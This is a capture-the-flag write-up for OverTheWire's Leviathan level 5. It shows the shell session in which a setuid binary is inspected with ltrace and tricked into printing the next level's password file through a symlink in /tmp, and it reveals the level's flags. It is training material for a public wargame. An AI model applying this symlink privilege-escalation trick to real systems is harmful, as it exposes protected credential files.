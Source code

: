 # Leviathan Level 4 → Level 5 setuid root binaries and symLink

## Previous Flag
<b>0dyxT7F4QD</b>

## Goal
Use previous password to log in SSH with user <b>leviathan5</b> and port <b>2223</b> accessed on leviathan.labs.overthewire.org
Du Hint: Use binary file to redirect link and open /etc/leviathan_pass/leviathan6

## What I learned
```
Review
```

## Solution
```
PS C:\Users\trung.DESKTOP-G7C81CH\Downloads\01noobHacker\overthewire> ssh leviathan5@leviathan.labs.overthewire.org -p 2223 ⌨️
leviathan5@leviathan:~$ ls -la ⌨️
total 36
drwxr-xr-x   2 root       root        4096 Jul 28 19:05 .
drwxr-xr-x 150 root       root        4096 Jul 28 19:06 ..
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Jul 28 18:47 .bashrc     
-r-sr-x---   1 leviathan6 leviathan5 15144 Jul 28 19:05 leviathan5          # SUID binary
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
leviathan5@leviathan:~$ file leviathan5 ⌨️
leviathan5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0fbe5a715bf8cd28d02bc0e989a37f9c0ab21614, for GNU/Linux 3.2.0, not stripped
leviathan5@leviathan:~$ ./leviathan5 ⌨️
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 ⌨️ 
__libc_start_main(0x804910d, 1, 0xffffd464, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                            = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log  
)                                                      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
leviathan5@leviathan:~$ touch /tmp/file.log ⌨️
leviathan5@leviathan:~$ cat /tmp/file.log ⌨️
cat: /tmp/file.log: No such file or directory               # Note: Somehow deleting it
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log ⌨️
leviathan5@leviathan:~$ ls -la /tmp/file.log ⌨️
lrwxrwxrwx 1 leviathan5 leviathan5 30 Aug  9 00:50 /tmp/file.log -> /etc/leviathan_pass/leviathan6
leviathan5@leviathan:~$ ./leviathan5 ⌨️
szo7HDB88w 🔐
```

## Flag
<b>szo7HDB88w</b>

## Continue
[Continue](./Leviathan0506.md)